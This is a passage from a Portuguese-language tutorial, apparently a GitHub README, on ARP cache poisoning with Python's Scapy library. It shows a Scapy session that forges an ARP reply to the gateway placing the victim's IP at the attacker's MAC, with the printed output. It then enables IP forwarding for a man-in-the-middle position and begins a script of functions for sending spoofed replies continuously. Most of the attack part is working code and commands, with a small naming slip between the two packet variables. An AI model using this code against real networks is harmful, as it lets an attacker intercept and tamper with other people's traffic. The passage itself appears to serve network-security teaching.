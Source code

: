 - 3º passo: “envenenar” o arp cache do default gateway na linha da vítima, preenchendo com o MAC address do atacante
- Solução: fake arp reply
```
>>> arppoison2 = ARP(op = 2, psrc = "192.168.1.101", pdst = "192.168.1.1", hwdst = "c4:e9:84:9a:14:16")
>>> arppoison1.show()
###[ ARP ]### 
  hwtype= 0x1
  ptype= IPv4
  hwlen= None
  plen= None
  op= is-at
  hwsrc= 28:56:5a:49:ff:67
  psrc= 192.168.1.101
  hwdst= c4:e9:84:9a:14:16
  pdst= 192.168.1.1

>>> send(arppoison1)
.
Sent 1 packets.
```
Observe agora que o que está sendo enviado para o gateway (`192.168.1.1` no MAC `c4:e9:84:9a:14:16`) é que o IP `192.168.1.101` (vítima) está (`is-at`) no MAC `28:56:5a:49:ff:67` (`hwsrc`) que na verdade é o MAC do atacante.

A partir desse momento, o gateway acha que a vítima está no MAC do atacante assim como a vítima acha que o gateway está no mesmo MAC malicioso.
##### Problemas
Porém, só com isso, esse ataque ainda não é efetivo por 2 motivos:
1. Os pacotes saem do gateway e chegam no atacante, mas não vão até a vítima, assim como saem da vítima e chegam no atacante, mas não vão pro gateway. É preciso fazer com que o atacante encaminhe os pacotes para o IP certo quando passam por ele.
2. A arp cache possui um tempo de verificação de linhas obsoletas, fazendo novos arp requests para atualizá-la. Após o ataque ser feito uma vez, depois de um curto período de tempo, a cache voltaria ao normal.
##### Soluções
1. Para encaminhar pacotes para os devidos IP's exitem 2 maneiras:
Pelo próprio kernel
```
$ echo 1 > /proc/sys/net/ipv4/ip_forward
```
ou
Utilizando o iptables
```
sudo apt install iptables
```
1. Para burlar o refresh da arp cache, o atacante pode enviar continuamente fake replys para sempre que um request for feito, já haja um fakereply pronto para responder. E isso pode ser feito com um [script](https://github.com/guilhermehiromoto/arp-cache-poisoning/blob/master/arp.py) em python.
```
from scapy.all import *
import time

def getmac(targetip):
    arppacket = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst=targetip)
    targetmac = srp(arppacket)[0][0][1].hwsrc
    return targetmac

def poisonarpcache(targetip, targetmac, sourceip):
    spoofed = ARP(op=2 , pdst=targetip, psrc=sourceip, hwdst= targetmac)
    send(spoofed)

def restorearp(targetip, targetmac, sourceip, sourcemac):
    packet = ARP(op=2 , hwsrc=sourcemac , psrc= sourceip, hwdst= targetmac , pdst= targetip)
```